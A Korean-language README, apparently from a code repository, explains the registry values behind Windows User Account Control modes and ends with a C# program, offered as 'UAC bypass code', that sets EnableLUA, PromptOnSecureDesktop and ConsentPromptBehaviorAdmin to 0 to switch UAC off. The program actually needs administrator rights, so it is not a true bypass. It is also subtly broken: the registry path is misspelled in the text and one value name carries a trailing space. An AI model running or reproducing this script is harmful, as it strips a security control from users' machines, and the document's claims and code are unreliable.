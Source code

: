 # UAC(User Access control) 우회 방법

## 그룹정책 설정 및 레지스트리 키 
HKLM\Software\Microsoft\Windows\CurrentVersion\Polices\System

## 사용자 계정 컨트롤은 4가지 모드로 동작
1. 항상 알림(프로그램에서 소프트웨어를 설치, 컴퓨터를 변경하려는 경우)
2. 프로그램이 시스템을 변경할 때 알림(기본값, 프로그램에서 Windows 설정을 변경하려는 경우만 알림)
3. 보안 데스크톱 사용 안함(보안 데스크톱에서 UAC 대화 상자를 띄우지 않고 일반 데스크톱화면에서 띄어줌, 화면을 흐리게 전환하지 않음)
4. 사용자 계정 컨트롤 끄는 기능

## 사용자 계정 컨트롤의 세부 정보
레지스트리키 : HKLM\Software\Microsoft\Windows\CurrentVersion\Polices\System
(EnableLUA, PromptOnSecureDesktop, ConsentPromptBehaviorAdmin)

### 항상 알림
- EnableLUA : 1(REG_DWORD)
- PromptOnSecureDesktop : 1(REG_DWORD)
- ConsentPrompBehaviorAdmin : 1(REG_DWORD)

### 프로그램이 시스템을 변경할때 알림
- EnableLUA : 1 (REG_DWORD)
- PromptOnSecureDesktop : 1(REG_DWORD)
- ConsentPrompBehaviorAdmin : 5 (REG_DWORD)

### 보안데스크톱 사용 안함
- EnableLUA : 1 (REG_DWORD)
- PromptOnSecureDesktop : 0 (REG_DWORD)
- ConsentPromptBehaviorAdmin : 5 (REG_DOWRD)


### 사용자 계정 컨트롤 끄는 기능
- EnableLUA : 0 (REG_DWORD)
- PromptOnSecureDesktop : 0 (REG_DWORD)
- ConsentPromptBehaviorAdmin : 0 (REG_DWORD)


## 레지스트리 값 설명
### ConsentPromptBehaviorAdmin 
- Key   : SOFTWARE \ Microsoft \ Windows \ CurrentVersion \ Policies \ System
- Value : ConsentPromptBehaviorAdmin
- Type  : REG_DWORD
- 데이터 
    |값|의미|
    |---|---|
    |0x00000000|이 옵션을 사용하여 승인 또는 자격 증명없이 승격이 필요한 작업을 승인 관리자가 수행 할 수 있습니다.|
    |0x00000001|이 옵션은 권한 승계 권한이 필요하면 권한 관리자가 사용자 이름과 암호 (또는 다른 유효한 관리자)를 입력하도록합니다. 이 작업은 보안 된 데스크톱에서 수행됩니다.|
    |0x00000002|이 옵션은 관리자 승인 모드의 관리자에게 권한 상승이 필요한 작업을 "허가"또는 "거부"로 선택하라는 메시지를 표시합니다. 동의 관리자가 허용을 선택하면 가장 높은 사용 권한으로 작업이 계속됩니다. "동의 확인"은 권한있는 작업을 수행하기 위해 사용자가 이름과 암호를 입력하도록 요구하는 불편 함을 제거합니다. 이 작업은 보안 된 데스크톱에서 수행됩니다.|
    |0x00000003|이 옵션은 권한 승계 권한이 필요하면 권한 관리자가 사용자 이름과 암호 (또는 다른 유효한 관리자의 사용자 이름과 암호)를 입력하도록합니다.|
    |0x00000004|관리자 승인 모드에서 관리자에게 권한 상승이 필요한 작업을 "허가"또는 "거부"로 선택하라는 메시지가 나타납니다. 동의 관리자가 허용을 선택하면 가장 높은 사용 권한으로 작업이 계속됩니다. "동의 확인"은 권한있는 작업을 수행하기 위해 사용자가 이름과 암호를 입력하도록 요구하는 불편 함을 제거합니다.|
    |0x00000005|이 옵션이 기본값입니다. 비 Windows 바이너리에 대한 권한 상승이 필요한 작업에 대해 관리자 승인 모드에서 관리자에게 "허용"또는 "거부"를 선택하라는 메시지를 표시하는 데 사용됩니다. 동의 관리자가 허용을 선택하면 가장 높은 사용 권한으로 작업이 계속됩니다. 이 작업은 보안 된 데스크톱에서 수행됩니다.|

### EnableLUA
- Key : SOFTWARE \ Microsoft \ Windows \ CurrentVersion \ Policies \ System
- Value : EnableLUA
- Type : REG_DWORD
- 데이터 
    |값|의미|
    |---|---|
    |0x00000000|이 정책을 사용하지 않으면 "관리자가 관리자 승인 모드의 사용자"사용자 유형을 사용할 수 없습니다.|
    |0x00000001|이 정책은 "관리자 승인 모드의 관리자"사용자 유형을 활성화하는 동시에 다른 모든 UAC (사용자 계정 컨트롤) 정책을 사용하도록 설정합니다.|

### PromptOnSecureDesktop
- 키 : SOFTWARE \ Microsoft \ Windows \ CurrentVersion \ Policies \ System
- 값 : "PromptOnSecureDesktop"
- 유형 : REG_DWORD
- 데이터
    |값|의미|
    |---|---|
    |0x00000000|이 정책을 사용하지 않으면 보안 된 바탕 화면 메시지가 표시되지 않습니다. 모든 자격 증명 또는 동의 확인 메시지는 대화 형 사용자의 데스크톱에서 발생합니다.|
    |0x00000001|이 정책은 사용자의 안전한 데스크탑에서 모든 UAC 프롬프트를 강제 실행합니다.|


## UAC 우회 코드
```C#
namespace UACBypass
{
    class Program
    {
        static void Main(string[] args)
        {
            UAC_bypass();
        }

        private static void UAC_bypass()
        {
            try
            {
                Console.WriteLine("UAC is about to go down!");
                Microsoft.Win32.RegistryKey key = Microsoft.Win32.Registry.LocalMachine.OpenSubKey(@"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System", Microsoft.Win32.RegistryKeyPermissionCheck.ReadWriteSubTree);
                key.SetValue("ConsentPromptBehaviorAdmin", 0);
                key.SetValue("EnableLUA", 0);
                key.SetValue("PromptOnSecureDesktop ", 0);
                Console.WriteLine("UAC is down!");
            }
            catch (Exception ex)
            {

                Console.WriteLine("UAC_byPass() " + ex.Message);
            }
        }
    }
}
```



    
